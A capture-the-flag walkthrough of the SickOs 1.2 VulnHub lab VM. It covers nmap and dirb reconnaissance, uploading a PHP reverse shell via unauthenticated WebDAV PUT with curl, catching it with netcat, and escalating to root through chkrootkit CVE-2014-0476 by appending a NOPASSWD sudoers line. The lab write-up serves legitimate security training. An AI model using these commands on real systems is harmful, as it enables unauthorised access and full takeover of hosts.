 # SickOs 1.2
[Link to vulnhub](https://www.vulnhub.com/entry/sickos-12,144/)

## Reconnaissance
I start with reconnaissance to find the target because it has been set to receive DHCP
```
nmap -sS -O 192.168.159.0/24
```
I found the target at **192.168.159.132**. Now I start enumerate services running on that host.

## Enumeration
```
root@BOEING:/kapi/vulnhub/sic0s1.2# nmap -A -T4 -p- 192.168.159.132

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-03-03 18:54 PST
Nmap scan report for 192.168.159.132
Host is up (0.00072s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:F8:2E:DB (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.1, Linux 3.16 - 3.19, Linux 3.2 - 4.4, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.72 ms 192.168.159.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.64 seconds
```
From the result of Nmap, I found that the target was running 3 services
* SSH running on tcp port 22
* HTTP running on tcp port 80

Dirb to 192.168.159.132
```
root@BOEING:/kapi/vulnhub/sic0s1.2# dirb http://192.168.159.132/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  3 18:59:24 2017
URL_BASE: http://192.168.159.132/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.159.132/ ----
+ http://192.168.159.132/index.php (CODE:200|SIZE:163)                                                                                                                                  
==> DIRECTORY: http://192.168.159.132/test/                                                                                                                                             
                                                                                                                                                                                        
---- Entering directory: http://192.168.159.132/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri Mar  3 18:59:28 2017
DOWNLOADED: 4612 - FOUND: 1
```
I found directory listing on **/test** but there is nothings interesting.

I check for HTTP method OPTIONS on / and /test and I found that many HTTP methods allowed on /test
```
### Request
OPTIONS /test/ HTTP/1.1
Host: 192.168.159.132
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


### Response
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Sat, 04 Mar 2017 03:07:40 GMT
Server: lighttpd/1.4.28
```

## Exploitation
HTTP method PUT allowed with no authenticatio required. An attacker could upload web shell to /test using HTTP method PUT.
Again, I uploaded this [PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell) from pentestmonkey.
```
root@BOEING:/kapi/vulnhub/sic0s1.2# curl --upload-file  php-reverse-shell.txt -v --url http://192.168.159.132/test/reverse_shell.php -0 --http1.0
*   Trying 192.168.159.132...
* Connected to 192.168.159.132 (192.168.159.132) port 80 (#0)
> PUT /test/reverse_shell.php HTTP/1.0
> Host: 192.168.159.132
> User-Agent: curl/7.50.1
> Accept: */*
> Content-Length: 5687
> 
* We are completely uploaded and fine
* HTTP 1.0, assume close after body
< HTTP/1.0 201 Created
< Content-Length: 0
< Connection: close
< Date: Sat, 04 Mar 2017 03:25:28 GMT
< Server: lighttpd/1.4.28
< 
* Closing connection 0
```

I started netcat listening server. 
```
nc -nvlp 443
```

I browse to the PHP file I uploaded and shell spawned.
```
root@BOEING:/kapi/vulnhub/sic0s1.2# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.159.3] from (UNKNOWN) [192.168.159.132] 40942
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 19:35:28 up 43 min,  0 users,  load average: 0.02, 0.02, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
**I'd tried to listening on TCP port 8890 before and found that no connection come to my listener then I changed listening port to 443 and modified the php reverse shell before uploaded it again**

I executed Python to spawn a shell.
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ 
```

## Escalation
I enumerated OS version.
```
www-data@ubuntu:/$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.04.4 LTS
Release:        12.04
Codename:       precise
www-data@ubuntu:/tmp$ dpkg -l | grep chkrootkit
dpkg -l | grep chkrootkit
rc  chkrootkit                      0.49-4ubuntu1.1                   rootkit detector
```
I checked for cron jobs and I found that cron.daily has **chkrootkit**. I knew a vulnerability of chkrootkit [CVE-2014-0476](https://www.exploit-db.com/exploits/33899/) this could allow me to escalate my privilge.

Vulnerable chkrootkit will execute /tmp/update and I could create file named update in /tmp contain shell command that add **sudo su** to user www-data

```
www-data@ubuntu:/tmp$ echo 'echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```
Wait for a few minutes...
```
www-data@ubuntu:/tmp$ sudo su
sudo su
root@ubuntu:/tmp# ls -al
ls -al
total 28
drwxrwxrwt  4 root     root     4096 Mar  3 21:12 .
drwxr-xr-x 22 root     root     4096 Mar 30  2016 ..
-rw-rw-rw-  1 www-data www-data  225 Mar  3 21:04 kapi.txt
srwxr-xr-x  1 www-data www-data    0 Mar  4  2017 php.socket-0
-rwxrwxrwx  1 www-data www-data   76 Mar  3 21:09 update
-rw-r--r--  1 root     root     1600 Mar  4  2017 vgauthsvclog.txt.0
drwxrwxrwt  2 root     root     4096 Mar  4  2017 VMwareDnD
drwx------  2 root     root     4096 Mar  4  2017 vmware-root
root@ubuntu:/tmp# whoami
whoami
root
```

## Find the flag
```
root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:~# ls -al
ls -al
total 76
drwx------  4 root root  4096 Apr 26  2016 .
drwxr-xr-x 22 root root  4096 Mar 30  2016 ..
-rw-r--r--  1 root root 39421 Apr  9  2015 304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz
-r--------  1 root root   491 Apr 26  2016 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
-rw-------  1 root root  3066 Apr 26  2016 .bash_history
-rw-r--r--  1 root root  3106 Apr 19  2012 .bashrc
drwx------  2 root root  4096 Apr 12  2016 .cache
drwxr-xr-x  2 john john  4096 Apr 12  2016 chkrootkit-0.49
-rw-r--r--  1 root root   541 Apr 25  2016 newRule
-rw-r--r--  1 root root   140 Apr 19  2012 .profile
root@ubuntu:~# cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```



### For other information
* [Reverse shell cheat sheet - pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Basic privilege escalation - g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
